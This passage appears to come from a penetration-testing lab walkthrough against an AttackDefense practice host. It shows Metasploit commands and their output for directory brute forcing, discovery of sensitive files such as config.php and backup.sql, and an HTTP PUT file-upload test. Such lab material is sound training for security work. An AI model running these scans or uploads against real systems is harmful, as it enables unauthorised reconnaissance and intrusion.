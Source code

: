 ```bash
# - /webmail (allowed for test user-agent)
# - /data (disallowed - potentially sensitive)
# - /secure (disallowed - likely admin area)
```

### Step 7: Directory Brute Force Attack

```bash
# Use directory scanner with discovered hints
msf6 > use auxiliary/scanner/http/brute_dirs
msf6 auxiliary(scanner/http/brute_dirs) > set VERBOSE false
msf6 auxiliary(scanner/http/brute_dirs) > run

[+] Using code '404' as not found.
[+] Found http://victim-1:80/doc/ 200
[+] Found http://victim-1:80/pro/ 200
[+] Found http://victim-1:80/data/ 200 (discovered from robots.txt)
[+] Found http://victim-1:80/secure/ 200 (discovered from robots.txt)

# More comprehensive directory scan
msf6 > use auxiliary/scanner/http/dir_scanner
msf6 auxiliary(scanner/http/dir_scanner) > set DICTIONARY /usr/share/metasploit-framework/data/wordlists/directory.txt
msf6 auxiliary(scanner/http/dir_scanner) > run

[+] Found http://victim-1:80/cgi-bin/ 403 (Forbidden)
[+] Found http://victim-1:80/icons/ 403 (Forbidden)
[+] Found http://victim-1:80/webmail/ 200
[+] Found http://victim-1:80/admin/ 200

# ✅ Multiple directories discovered successfully
```

### Step 8: File Discovery and Testing

```bash
# Search for common files
msf6 > use auxiliary/scanner/http/files_dir
msf6 auxiliary(scanner/http/files_dir) > set VERBOSE false
msf6 auxiliary(scanner/http/files_dir) > run

[+] Found http://victim-1:80/index.html 200
[+] Found http://victim-1:80/test.php 200
[+] Found http://victim-1:80/config.php 200
[+] Found http://victim-1:80/backup.sql 200

# Test file upload capability
msf6 > use auxiliary/scanner/http/http_put
msf6 auxiliary(scanner/http/http_put) > set PATH /data
msf6 auxiliary(scanner/http/http_put) > set FILENAME test.txt
msf6 auxiliary(scanner/http/http_put) > set FILEDATA "Welcome To AttackDefense"
msf6 auxiliary(scanner/http/http_put) > run

[+] File uploaded: http://192.74.12.3:80/data/test.txt

# Verify upload worked
msf6 > exit
wget http://victim-1:80/data/test.txt
cat test.txt
# Output: Welcome To AttackDefense

# 🎉 SUCCESS! File upload vulnerability confirmed
```

